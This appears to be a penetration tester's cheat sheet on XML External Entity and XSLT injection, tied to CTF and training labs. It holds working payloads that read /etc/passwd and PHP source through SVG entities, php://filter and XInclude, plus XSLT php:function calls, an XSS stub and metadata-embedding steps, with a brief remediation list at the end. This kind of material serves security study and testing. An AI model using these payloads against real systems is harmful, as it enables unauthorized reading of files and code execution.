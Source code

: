 # XML External Entity (XXE)

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

We can use the `file://` protocol to read simple files. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non-PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

📚 [List of interesting files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) to steal.
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML, usually when transforming XML documents into HTML, another XML document, or PDF. If the XSLT parser is vulnerable, we may be able to execute code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<!-- add some payload here -->
</body>
</html>
```
</div><div>

While common PHP payloads are:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```

📚 Common XSLT parsers are: LibXSLT, Xalan, and Saxon.
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Word Documents Metadata

Refer to [CVE-2019-13358](https://nvd.nist.gov/vuln/detail/CVE-2019-13358) for an example.

```ps
$ unzip xxx.docx
$ nano word/document.xml
$ zip yyy.docx word/document.xml
```
</div><div>

#### WAV File iXML Metadata

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

Refer to [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) for an example.

```ps
$ cat xxx.wav
RIFFXXXXWAVEBBBBiXML<XML HERE>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `PUBLIC` instead of `SYSTEM`?

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Tools

* [XXEinjector](https://github.com/enjoiz/XXEinjector) <small>(1.6k ⭐, 2020 🪦)</small>
* [xxexploiter](https://github.com/luisfontes19/xxexploiter) <small>(0.6k ⭐, 2022 🪦)</small>
</div><div>

Remediations

* Disallow external DTDs
* Disallow external entities
* Disallow XML parameters entities
* Disable XInclude
* Disable Self Reference/Entity Loops
</div></div>